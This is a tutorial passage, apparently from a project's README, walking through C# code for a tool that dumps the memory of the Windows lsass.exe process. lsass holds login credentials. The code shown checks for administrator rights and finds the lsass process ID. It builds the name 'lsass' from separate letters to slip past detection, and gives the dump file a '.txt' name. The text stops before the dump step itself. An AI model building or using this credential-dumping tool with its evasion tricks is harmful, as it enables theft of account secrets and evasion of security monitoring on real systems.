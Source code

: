To reach our goal, we will create a code that will:

- Check we are running an elevated process
- Get the lsass.exe PID
- Generate the file name or get it from the input arguments
- Create the output file with the correct name
- Get a handle to the lsass.exe process
- Dump the process


## Main function

First we need to check if the process is running with administrative privileges, as it will not work otherwise. We will use this code:

```c
// Check we are running an elevated process
if (WindowsIdentity.GetCurrent().Owner
      .IsWellKnown(WellKnownSidType.BuiltinAdministratorsSid) == false)
{
    Console.WriteLine("[-] Error: Execute with administrative privileges.");
    return;
}
```

Then, as we are in an elevated process, we can retrieve the lsass.exe process ID with the function getProcessPid():

```c
int processPID = getProcessPid();
Console.WriteLine("[+] Process PID: " + processPID);
```

In this function we will use a very dumb obfuscation to avoid using the string "lsass" - we will concatenate each letter of the string, creating the new string *processname_str*:

```c
static int getProcessPid() {
            string str1 = "l";
            string str3 = "s";
            string str5 = "a";
            string processname_str = str1 + str3 + str5 + str3 + str3;
            int processPID = Process.GetProcessesByName(processname_str)[0].Id;
            return processPID;
        }
```

We will then generate a name for the dump file we will create, and also a pointer to it.
- If there is an input argument with a file name, we will use that
- If not, we will generate a file name using the hostname and date.
	- Format: hostname_DD-MM-YYYY-HHMM (for example, hostname_01-12-2021-1200)

```c
String filename;
if (args == null || args.Length == 0)
{
    // Source: https://docs.microsoft.com/en-us/dotnet/api/system.datetime.tostring?view=net-5.0
    String now = DateTime.Now.ToString("dd-MM-yy-HHmm");
    String extension = ".txt";
    filename = Directory.GetCurrentDirectory() + "\\" + Environment.MachineName + "_" + now + extension;
}
else
{
    filename = args[0];
}
```
